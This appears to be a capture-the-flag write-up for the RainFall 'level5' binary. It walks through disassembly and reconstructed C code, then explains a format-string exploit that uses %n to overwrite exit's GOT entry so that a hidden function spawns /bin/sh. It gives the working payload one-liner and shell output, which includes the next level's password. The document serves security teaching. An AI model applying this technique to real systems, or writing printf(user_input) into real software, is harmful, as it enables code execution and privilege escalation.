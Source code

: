 
### notes
```c
0x08049854  m    : global variable m (useless here)
0x080484a4  o    : fn : called in n
0x080484c2  n    : fn : called in main
0x08048504  main : rak 3arf
```

### 0x080484c2 : n() : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c

{
    char *buffer_1[512] = ebp-520
    // 0x218 ... 536
    // 0x208 ... 520
    // 0x200 ... 512
}
```
__`<0> -> <+3> : prepare stack frame for n function with size 536`__
```c
0x080484c2 <+0>:	push   ebp
0x080484c3 <+1>:	mov    ebp,esp
0x080484c5 <+3>:	sub    esp,536
```
__`<+9> -> <+35> : prepare arguments for fgets(str, size, stdin)`__
```c
0x080484cb <+9>:	mov    eax,ds:0x8049848 // stdin
0x080484d0 <+14>:	mov    DWORD PTR [esp+8],eax  
0x080484d4 <+18>:	mov    DWORD PTR [esp+4],512  
0x080484dc <+26>:	lea    eax,[buffer_1] 
0x080484e2 <+32>:	mov    DWORD PTR [esp],eax 
0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
fgets(str, 512, stdin)
```
__`<+40> -> <+49> : print the input from user taken by fgets`__
```c
0x080484ea <+40>:	lea    eax,[buffer_1]
0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
0x080484f3 <+49>:	call   0x8048380 <printf@plt>
printf(buffer_1)
```
__`<+54> -> <+61> : exit function with 1`__
```c
0x080484f8 <+54>:	mov    DWORD PTR [esp],1
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
exit(1)
```



### 0x080484a4 : o() : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c

{
    // 0x18 ...24
}
```
__`<+0> -> <+3> : init stack with size 24`__
```c
0x080484a4 <+0>:	push   ebp
0x080484a5 <+1>:	mov    ebp,esp
0x080484a7 <+3>:	sub    esp,24
```
__`<+6> -> <+13> : fork the shell with stystem call`__
```c
0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0 // "/bin/sh"
0x080484b1 <+13>:	call   0x80483b0 <system@plt>
system("/bin/sh");
```
__`<+18> -> <+25> : exit function`__
```c
0x080484b6 <+18>:	mov    DWORD PTR [esp],1
0x080484bd <+25>:	call   0x8048390 <_exit@plt>
exit(1);
```

### Code Prediction 
```c
void o() {
    system("/bin/sh");
    exit(1);
}
void n() {

    char *buffer_1[512];

    fgets(str, 512, stdin);
    printf(buffer_1);

    exit(1);
}
int main(int argc(ebp+0x8), char **argv(ebp+12)) {
    n()
    return;
}
```
---

### Stack Illustration :
[![stack view](./Ressources/level5-stack-diagram.png)](./Ressources/level5-stack-diagram.png)

---
### Process of the Exploit

- since the function `o` that calls the shell is not called in `n` function nor the main
- the idea here is : find a a vulnerability to call `o` from `n`
- instead of exit the `n` we have to redirect it to execute the `o`

__how we will do that ?__ : 
- we have to overwrite the address where `<_exit@plt>` jumps (___global offset table___ __GOT__, search about it), to the address of `o` (_0x080484a4_)
ok lets start the process:

- looking at the assembly of exit function inside the n function
    ```c
    (gdb) disass 0x80483d0
    Dump of assembler code for function exit@plt:
    0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838 <==== address to overwrite
    0x080483d6 <+6>:	push   0x28
    0x080483db <+11>:	jmp    0x8048370
    End of assembler dump.
    (gdb)
    ```
- the exit function jumps into `0x8049838` 
-we have to change the value the value of this address by the address of `o` ->`0x080484a4`
since we have only printf as a door to the exploit we will have to use the `%n` methode to write address into address

__what ?__
yes , simply we convert the address we want to change with to decimal 
in our case:
```
exit -> 0x8049838
o    -> 0x080484a4(hex) -> 134513828(decimal)
```
___
### Solution :
```shell
level5@RainFall:~$ (python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d" + "%4$n"'; cat -) | ./level5

[...]


whoami
level6
pwd
/home/user/level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
---

### Ressources :

- ___[[VIDEO] : Format String Exploit and overwrite the Global Offset Table - bin 0x13](https://youtu.be/t1LH9D5cuK4)___
- ___[[ARTICLE] : A demonstration on how to overwrite GOT (Global Offset Table) table entry using format string vulnerability. ](https://gist.github.com/shahril96/e73268d41d493e056a5d2d768e5c634a)___
- ___[EXERCICE IN PROTOSTART](https://exploit.education/protostar/format-four/)___
- ___[[ARTICLE] : Exploiting format strings: Getting the shell](https://resources.infosecinstitute.com/topic/exploiting-format-strings-getting-the-shell/)___